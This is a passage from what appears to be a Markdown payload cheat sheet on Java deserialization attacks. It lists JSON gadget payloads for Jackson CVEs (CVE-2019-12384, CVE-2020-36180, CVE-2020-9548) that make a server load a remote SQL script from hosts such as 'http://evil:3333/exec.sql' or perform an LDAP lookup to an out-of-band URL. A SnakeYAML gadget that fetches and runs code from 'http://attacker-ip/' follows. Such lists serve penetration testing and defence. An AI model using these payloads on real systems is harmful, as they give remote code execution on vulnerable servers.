 * **CVE-2019-12384**

  ```json
  [
    "ch.qos.logback.core.db.DriverManagerConnectionSource", 
    {
      "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"
    }
  ]
  ```

* **CVE-2020-36180**

  ```json
  [
    "org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS",
    {
      "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://evil:3333/exec.sql'"
    }
  ]
  ```

* **CVE-2020-9548**

    ```json
    [
      "br.com.anteros.dbcp.AnterosDBCPConfig",
      {
        "healthCheckRegistry": "ldap://{{interactsh-url}}"
      }
    ]
    ```

## YAML Deserialization

* [SnakeYAML](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#snakeyaml-yaml)
* [jYAML](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jyaml-yaml)
* [YamlBeans](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#yamlbeans-yaml)

**SnakeYAML**:

SnakeYAML is a popular Java-based library used for parsing and emitting YAML (YAML Ain't Markup Language) data. It provides an easy-to-use API for working with YAML, a human-readable data serialization standard commonly used for configuration files and data exchange.

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

## ViewState
